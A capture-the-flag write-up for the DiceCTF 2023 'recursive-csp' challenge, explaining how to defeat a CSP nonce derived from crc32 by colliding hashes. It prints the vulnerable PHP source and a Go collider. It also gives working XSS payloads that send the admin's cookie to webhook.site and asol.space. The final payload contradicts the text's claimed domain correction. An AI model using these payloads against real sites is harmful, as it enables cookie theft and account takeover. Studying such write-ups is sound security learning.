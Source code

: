 ```yaml
---
Title: Recursive-csp - DiceCTF 2023
Date: 2023-02-08T00:00:00+05:30
Tags: [web, csp, dicectf23-writeups, ctf, writeup, nonce, hash-collision]
Categories: [dicectf23-writeups,All Writeups]
Authors: [Rohit]

twemoji: true
---
```


#### tl;dr

  - Craft a payload with a random nonce
  - Use something like hash-collider to collide the nonce we gave earlier

<!--more-->

## Description

the nonce isn't random, so how hard could this be?

(the flag is in the admin bot's cookie)

- **Author** : strellic
- **Category** : Web
- **Points** : 115
- **Solves** : 178

## Solution

### Understanding the challenge

Here we get the source for `\?source` 

```php
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

It's a simple XSS Challenge in PHP. The catch is that there is a [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce) that prevents us from getting XSS directly and the nonce is basically the [crc32](https://www.php.net/manual/en/function.crc32.php) hash of our payload. But our payload must contain the [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce)

Basically `We should have the crc32 hash of the WHOLE MESSAGE inside the MESSAGE`

### Trying the Bruteforce

For a while, we were trying to brute force the nonce, hoping it will be the same at least one time since the crc32 has only 8 bytes.

```php
<?php
for ($i = 0; $i <= 0xffffffff; $i++) {
  $x=sprintf("%08x", $i);
  $y='<script nonce="'.$x.'">window.location="https://webhook.site/a0a221c5-6a61-4ff6-a1f5-438ed5ce9403/?x="+document.cookie</script>';
  echo $y;

  $z=hash("crc32b", $y);

  if($z===$x){
    echo "found";
    exit();
  }

  echo "\n";
}
?>
```

But this never worked out :cry: 

We tried this so for so long and while it was running we searched for other ways.

### Trying the collider

So we searched for `crc32` collissions and got [this](https://github.com/fyxme/crc-32-hash-collider)

```go
func AddLetter(c chan string, combo string, alphabet string, length int) {
	// Check if we reached the length limit
	// If so, we just return without adding anything
	if length <= 0 {
		return
	}

	var newCombo string
	for _, ch := range alphabet {
		newCombo = combo + string(ch)
		c <- newCombo
		AddLetter(c, newCombo, alphabet, length-1)
	}
}

func worker(wChan chan string, target uint32) {
	for tString := range wChan {
		if crc32.ChecksumIEEE([]byte(tString)) == target {
			fmt.Println("Collision found:", tString)
		}
	}
}
```

This is just a crc32 hash collider written in go. It will start with a String and append as many characters as `maxLen` would allow and try if the hash matches. So all that was left was for us to decide on a nonce and give its corresponding integer as the `target` in the code.

**Note: Here we had to use a domain as the payload can only contain 127 characters and if we use webhook url we won't have enough charcters left to bruteforce**

By running the code on 16 different laptops with 16 cores with 16 different nonces, we were able to collide it just in time.

`<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>000000000000000000000000000000000048io`

But we made one mistake in the domain to which the flag is sent. Where the domain was supposed to be `https://axol.space` I put `https://asol.space` :sob:

Now we had to put the correct domain and hash it again. This time it took even longer. It took so much time that we were just going to buy `https://asol.space`. But we collided that payload too and finally got the flag

`<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>0000000000hytza`

**Flag**: `dice{h0pe_that_d1dnt_take_too_l0ng}`